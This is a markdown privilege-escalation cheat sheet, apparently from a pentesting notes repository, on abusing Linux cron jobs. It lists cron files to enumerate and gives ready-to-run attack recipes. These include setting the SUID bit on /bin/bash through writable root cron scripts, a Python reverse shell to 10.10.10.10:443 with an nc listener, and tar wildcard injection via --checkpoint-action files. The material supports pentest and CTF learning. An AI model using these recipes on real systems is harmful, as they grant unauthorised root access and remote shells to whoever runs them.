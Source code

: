 # Cron jobs
Cron Jobs are used for scheduling tasks by executing commands at specific dates and times on the server. They’re most commonly used for sysadmin jobs such as backups or cleaning /tmp/ directories and so on. The word Cron comes from crontab and it is present inside /etc directory.

## 🔍Enumeration 
Some importent Cron Jobs file to enumerate. Check if you have access with write permission on these files. Check inside the file, to find other paths with write permissions.
```
/etc/init.d                # → Contains initialization scripts used by System V-style init to manage services.
/etc/cron*                 # → Wildcard for all cron-related files and directories (cron jobs, config).
/etc/crontab               # → Main system-wide cron file for scheduled tasks.
/etc/cron.allow            # → Specifies users allowed to use the `cron` service.
/etc/cron.d                # → Directory for additional cron job definitions.
/etc/cron.deny             # → Specifies users *not* allowed to use `cron`.
/etc/cron.daily            # → Contains scripts scheduled to run daily.
/etc/cron.hourly           # → Contains scripts scheduled to run hourly.
/etc/cron.monthly          # → Contains scripts scheduled to run monthly.
/etc/cron.weekly           # → Contains scripts scheduled to run weekly.
/etc/sudoers               # → Defines sudo access rules for users and groups.
/etc/exports               # → Defines file systems available for remote mounting via NFS.
/etc/anacrontab            # → Config file for anacron to run cron jobs missed during system downtime.
/var/spool/cron            # → Contains user-specific cron jobs scheduled with `crontab`.
/var/spool/cron/crontabs/root  # → Contains the root user’s scheduled cron jobs.

crontab -l                 # → Lists the current user's cron jobs.
ls -alh /var/spool/cron    # → Lists all user cron job files with human-readable sizes.
ls -al /etc/ | grep cron   # → Filters and lists cron-related files/directories in `/etc`.
ls -al /etc/cron*          # → Lists contents and permissions of all cron-related folders/files.
cat /etc/cron*             # → Outputs the contents of all cron configuration files.
cat /etc/at.allow          # → Lists users allowed to use the `at` command for one-time tasks.
cat /etc/at.deny           # → Lists users *denied* from using `at`.
cat /etc/cron.allow        # → Lists users allowed to schedule cron jobs.
cat /etc/cron.deny*        # → Outputs contents of all deny lists for cron access.
```
You can use pspy to detect a CRON job.
- **pspy:** [https://github.com/DominicBreuker/pspy]
```
./pspy64 -pf -i 1000   # → print both commands and file system events and scan procfs every 1000 ms (=1sec)
```
## 📌Privilege Escalation via Nonexistent File Overwrite
```
cat /etc/crontab
Output Example: * * * * * root systemupdate.sh
echo 'chmod +s /bin/bash' > /home/user/systemupdate.sh
chmod +x /home/user/systemupdate.sh
Wait a while
/bin/bash -p
id && whoami
```

## 📌Privilege Escalation via Root Executable Bash Script
```
cat /etc/crontab
Output Example: * * * * * root /usr/bin/local/network-test.sh
echo "chmod +s /bin/bash" >> /usr/bin/local/network-test.sh
Wait a while
id && whomai
```

## 📌Privilege Escalation via Root Executable Python Script Overwrite
### 🎯Target:
```
cat /etc/crontab
Output Example: * * * * * root /var/www/html/web-backup.py
cd /var/www/html/
vi web-backup.py
Add the below to the script:

import socket
import subprocess
import os

s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("10.10.10.10",443)); 
os.dup2(s.fileno(),0);
os.dup2(s.fileno(),1);
os.dup2(s.fileno(),2);
p=subprocess.call(["/bin/bash","-i"]);

// Replace the IP & Port 

// Save & Exit the Script
```
### 💀Attacker:
```
nc -lvnp 443
```
OR
### 🎯Target:
```
cat /etc/crontab
Output Example: * * * * * root /var/www/html/web-backup.py
cd /var/www/html/
vi web-backup.py
Add the below to the script:

import os

os.system("chmod +s /bin/bash")

// Save & Exit the Script

Wait a While
/bin/bash -p
id && whoami
```

## 📌Privilege Escalation via Tar Bash Script (WildCards)
```
cat /etc/crontab
Output Example: * * * * * root /usr/bin/local/mysql-db-backup.sh
cat /usr/bin/local/mysql-db-backup.sh
Output of Script:
--------------------------------
#!/bin/bash

cd /var/www/html/
tar czf /tmp/dbbackup.tar.gz *
--------------------------------
cd /var/www/html/
echo "#!/bin/bash" > priv.sh
echo "chmod +s /bin/bash" >> priv.sh
chmod +x priv.sh
touch /var/www/html/--checkpoint=1
touch /var/www/html/--checkpoint-action=exec=sh\ priv.sh
Wait a while
/bin/bash -p
id && whomai
```

## 📌Privilege Escalation via Tar Cron Job
```
cat /etc/crontab
Output Example: */1 *   * * *   root tar -zcf /var/backups/html.tgz /var/www/html/*
cd /var/www/html/
echo "chmod +s /bin/bash" > priv.sh
echo "" > "--checkpoint-action=exec=bash priv.sh
echo "" > --checkpoint=1
tar cf archive.tar *

// If it does not work , replace "bash" with "sh"
```
# 🔍Resources
- [https://github.com/gurkylee/Linux-Privilege-Escalation-Basics]
- [https://www.hackingarticles.in/linux-privilege-escalation-by-exploiting-cron-jobs/]
